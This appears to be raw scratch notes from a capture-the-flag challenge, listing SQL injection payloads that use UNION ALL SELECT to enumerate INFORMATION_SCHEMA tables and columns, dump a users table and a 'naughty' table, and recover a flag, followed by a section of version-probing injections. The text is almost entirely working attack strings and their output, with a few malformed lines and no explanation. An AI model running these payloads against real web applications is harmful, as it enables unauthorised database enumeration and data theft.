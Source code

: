 -1' UNION ALL SELECT table_name, column_name, 3 FROM INFORMATION_SCHEMA.columns -- 

-1' UNION ALL SELECT description, 2, 3 FROM flags -- 

-1' UNION ALL SELECT table_schema, table_name, 3 FROM INFORMATION_SCHEMA.tables -- 
-1' UNION ALL SELECT table_schema FROM INFORMATION_SCHEMA.tables -- 
-1' UNION ALL SELECT table_name FROM INFORMATION_SCHEMA.tables -- 
users
accounts
hosts
naughty
	id
	username
	badthing

-1' UNION ALL SELECT column_name FROM users -- 

-1' UNION ALL SELECT users FROM INFORMATION_SCHEMA.columns -- 

-1' UNION ALL SELECT username FROM users -- 
egische

-1' UNION ALL SELECT badthing FROM naughty -- 
NOVI{bl1nd_sql1_is_naughty}


=================7FIXED========================
-1' UNION ALL SELECT VERSION() -- 
-1' UNION ALL SELECT variables where variable_name = 'version'
-1' UNION SELECT VERSION();


